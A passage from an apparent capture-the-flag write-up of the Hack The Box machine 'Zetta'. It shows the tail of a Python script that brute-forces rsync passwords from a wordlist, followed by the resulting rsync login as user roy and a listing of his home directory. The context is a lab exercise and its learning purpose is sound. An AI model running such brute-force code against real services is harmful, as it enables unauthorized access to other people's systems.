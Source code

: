     except subprocess.CalledProcessError as e:
        pass

if __name__ == "__main__":

    f = open(sys.argv[1], "r")
    num = 0

    for x in f:
        x = x.rstrip('\n')
        bruteforce(x)
        num +=1
        if(num % 100 == 0):
           print("Num: " + str(num) + " - attempted: " + x)
{% endhighlight %}

<p>And once we let is run for awhile... we get lucky!</p>

<p>
<img src="{{ '/assets/htb-zetta/user-rsyncbrute.PNG' | relative_url }}">
</p>

<p>With <code>roy</code>'s credentials, we can now sync and upload files to <code>/home/roy</code>.

{% highlight shell %}
root@kali:~/Desktop/HTB/Zetta# rsync -v rsync://roy@[dead:beef::250:56ff:fea2:4d93]/home_roy --port 8730
****** UNAUTHORIZED ACCESS TO THIS RSYNC SERVER IS PROHIBITED ******

You must have explicit, authorized permission to access this rsync
server. Unauthorized attempts and actions to access or use this 
system may result in civil and/or criminal penalties. 

All activities performed on this device are logged and monitored.

****** UNAUTHORIZED ACCESS TO THIS RSYNC SERVER IS PROHIBITED ******

@ZE::A staff

This rsync server is solely for access to the zetta master server.
The modules you see are either provided for "Backup access" or for
"Cloud sync".


Password: 
receiving file list ... done
drwxr-xr-x          4,096 2019/07/28 06:52:29 .
lrwxrwxrwx              9 2019/07/27 06:57:06 .bash_history
-rw-r--r--            220 2019/07/27 03:03:28 .bash_logout
-rw-r--r--          3,526 2019/07/27 03:03:28 .bashrc
-rw-r--r--            807 2019/07/27 03:03:28 .profile
-rw-------          4,752 2019/07/27 05:24:24 .tudu.xml
-r--r--r--             33 2019/07/27 05:24:24 user.txt

sent 20 bytes  received 184 bytes  81.60 bytes/sec
total size is 9,347  speedup is 45.82
{% endhighlight %}
